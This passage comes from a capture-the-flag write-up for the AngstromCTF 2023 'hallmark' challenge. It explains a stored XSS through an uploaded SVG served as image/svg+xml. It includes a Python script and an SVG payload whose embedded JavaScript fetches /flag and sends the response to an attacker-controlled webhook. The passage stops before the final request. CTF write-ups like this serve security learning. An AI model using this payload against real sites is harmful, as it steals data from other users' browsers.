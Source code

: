 This way we can inject custom SVG payload and run a JS script since `content-type` header will be `image/svg+xml`. Let's see if it can work.

![hallmarket XSS](/assets/img/AngstromCTF_2023/hallmark-xss.png){: .image-66}

Ok, now we can create the real payload. The admin will do a request to `/flag` and will send the flag to us. We can use webhook to intercept the response. A final Python script could be

```python
import requests

webhook = 'https://my-unique-webhook-url'
print(f'#1: webhook: {webhook}')

url = 'https://hallmark.web.actf.co/card'

post_data = {
    'svg': 'text',
    'content': 'text'
}

r = requests.post(url, data=post_data, allow_redirects=False)
my_card_id = r.headers['Location'].split('=')[1]
print(f'#2: id = {my_card_id}')

content = '''
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
        var xmlHttp = new XMLHttpRequest();

        xmlHttp.onreadystatechange = function() {
            if(xmlHttp.status == 200) {
                flag = xmlHttp.responseText;
                document.location = "''' + webhook + '''?p=" + flag;
            }
        }

        xmlHttp.open("GET", '/flag', true);
        xmlHttp.send();
   </script>
</svg>
'''
```